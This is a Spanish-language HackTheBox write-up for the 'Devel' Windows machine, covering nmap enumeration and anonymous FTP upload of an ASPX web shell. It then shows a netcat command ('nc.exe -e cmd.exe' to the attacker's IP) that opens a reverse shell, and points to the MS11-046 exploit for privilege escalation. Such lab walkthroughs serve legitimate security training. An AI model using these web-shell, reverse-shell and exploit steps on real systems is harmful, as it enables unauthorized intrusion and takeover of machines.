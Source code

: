 ```yaml
---
layout: post
title: "Devel"
subtitle: 'HackTheBox - Easy Machine - Windows'
date: 2020-08-18 12:00:00
author: "TheusZero"
header-img: "images/post/WindowsMachines/Devel/1.png"
catalog: true
comments: true
tags:
  - Windows
  - Machine
  - Explotations
  - Upgrade
  - Shell
  - Root
  - User
---
```


devel corresponde a una maquina windows de nivel facil tanto en el user como en el root.

## Introduccion

Segun la comunidad podemos ver que devel tiene un nivel "facil" y podemos usar un CVE para atacar la maquina.
![](/TheusZero/images/post/WindowsMachines/Devel/3.png)
![](/TheusZero/images/post/WindowsMachines/Devel/2.png)

## Enumeracion

el nmap que arrojamos fue el siguiente:

```Python
root@kali# nmap -sT -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-21 21:22 EST
Nmap scan report for 10.10.10.5
Host is up (0.020s latency).
Not shown: 65533 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.44 seconds
```

Podemos ver que tenemos un puerto 21 ftp abierto y un puerto 80 con http funcionado, por ende, aondaremos con un -sC -sV en el peurto 21 y el 80 intentando encontrar algun tipo de script que podamos usar.

```Python
root@kali# nmap -sV -sC -p 21,80 -oA scans/nmap-scripts 10.10.10.5
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-21 21:44 EST
Nmap scan report for 10.10.10.5
Host is up (0.019s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  01:06AM       <DIR>          aspnet_client
| 03-17-17  04:37PM                  689 iisstart.htm
|_03-17-17  04:37PM               184946 welcome.png
| ftp-syst:
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.25 seconds
```

veemos que podemos acceder con **Anonymous** a la red del ftp y tenemos algunos archivos, como **welcome.png y iisstart.htm**

revisando el http 80 obtenemos lo siguiente:
![](/TheusZero/images/post/WindowsMachines/Devel/4.png)

esta imagen corresponde a la misma que se encuentra en el ftp llamada welcome, por ende, podemos intuir que el ftp corresponde a un directorio web que se ejecuta en la maquina, para comprobarlo revisamos el archivo **iisstart.htm**, entonces:

> http://10.10.10.5/iisstart.htm
>> nos deberia mostrar algun tipo de respuesta

Obtenemos esto:

```Python
HTTP/1.1 200 OK
Content-Type: text/html
Last-Modified: Fri, 17 Mar 2017 14:37:30 GMT
Accept-Ranges: bytes
ETag: "37b5ed12c9fd21:0"
Server: Microsoft-IIS/7.5
X-Powered-By: ASP.NET
Date: Mon, 25 Feb 2019 10:40:02 GMT
Connection: close
Content-Length: 689
```
exito, ya tenemos por donde explotar

## obtencion de una shell

windows rara vez tiene netcat o alguna reverse shell de las que tiene pentesteyMonkey por ende, debemos usar algunas diferentes que el sistema suele tener.
Con este comando obtenemos algunas reverse shell con aspx
```Python
root@kali# locate cmd.aspx
/usr/share/davtest/backdoors/aspx_cmd.aspx
/usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx
root@kali# cp /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx .
```

> usando la de /usr/share/seclists/Web-Shells/FuzzDB/cmd.aspx

entramos al ftp y subimos la shell 
```Python
ftp> put cmd.aspx  
local: cmd.aspx remote: cmd.aspx 
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.                              
1442 bytes sent in 0.00 secs (985.4465 kB/s) 
```

vamos al 80 y revisamos la shell 

> http://10.10.10.5/cmd.aspx

![](/TheusZero/images/post/WindowsMachines/Devel/5.png)

subiremos el binario de netcat ahora para entablar una buena reverse shell

![](/TheusZero/images/post/WindowsMachines/Devel/6.png)

o bien 

```Python
root@kali# locate nc.exe
/opt/SecLists/Web-Shells/FuzzDB/nc.exe
/opt/shells/netcat/nc.exe
/usr/lib/mono/4.5/cert-sync.exe
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/sqlninja/apps/nc.exe
/usr/share/windows-binaries/nc.exe
```
ahora lo subiremos a ftp usando BINARY ya que asi la data no se corrompe, recordar utilizar md5

con netcat ya subido, lo buscamos usando recursion sobre el disco C:
![](/TheusZero/images/post/WindowsMachines/Devel/7.png)
```Python
C:/Ruta/nc.exe -e cmd.exe 10.10.14.14 443
```
![](/TheusZero/images/post/WindowsMachines/Devel/devel-shell.gif)
lo ejecutamos y estamos dentro

#### Nishang

> https://github.com/samratashok/nishang

#### root
con un systeminfo obtenemos la version de la maquina: 
![](/TheusZero/images/post/WindowsMachines/Devel/8.png)
ya con esto podemos dar por entendido que version es, ahora al colocarla en google podemos acceder a un exploit simple de nombre:
> MS11-046 exploit (buscar en github)

subimos el binario que esta disponible y listo, somos root. 


